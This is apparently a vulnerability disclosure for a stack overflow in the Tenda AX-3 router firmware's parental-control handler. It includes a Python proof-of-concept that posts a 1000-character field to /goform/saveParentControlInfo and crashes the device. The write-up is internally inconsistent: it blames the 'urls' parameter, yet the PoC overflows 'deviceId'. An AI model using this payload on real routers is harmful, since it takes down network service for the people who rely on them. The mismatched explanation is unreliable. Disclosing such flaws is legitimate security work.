



# Tenda Vulnerability

Vendor:Tenda

Product:AX-3

Version:v16.03.12.10_CN(https://www.tenda.com.cn/material/show/3238)

Vulnerability Type: Stack Overflow

Author:Chuanhao Wan

Mail:chuanhaowan@hust.edu.cn

Institution:Huazhong University of Science and Technology(HUST)


## Vulnerability cause

In the get_parentControl_list_Info function, the urls parameter is propagated to the strcpy function without any length restriction on the urls parameter. The buffer size of the target parameter new_pc_info is derived from the parent function's parameter v7, with a size of 0x254u. By crafting a request that passes the compare_parentcontrol_time check, this can lead to a stack overflow, resulting in a Denial of Service (DoS) attack.


<div  align="center"></div>

<div  align="center"></div>

<div  align="center"></div>


## PoC

In order to reproduce the vulnerability, the following steps can be followed:

1.Boot the firmware by qemu-system or other ways (real machine)

2.Attack with the following POC attacks


```
import requests

url = "http://192.168.20.12/goform/saveParentControlInfo"

deviceId = "A" * 1000  
data = {
    "deviceId": deviceId,
    "enable": "1",
    "time": "00:00-23:59",
    "url_enable": "0",
    "day": "1",
    "block": "0",
    "limit_type": "1"
}

r = requests.post(url, data=data)
print(r.status_code, r.text)
```


## Result

The target router crashes and cannot provide services correctly and persistently.

<div  align="center"></div>
<div  align="center"></div>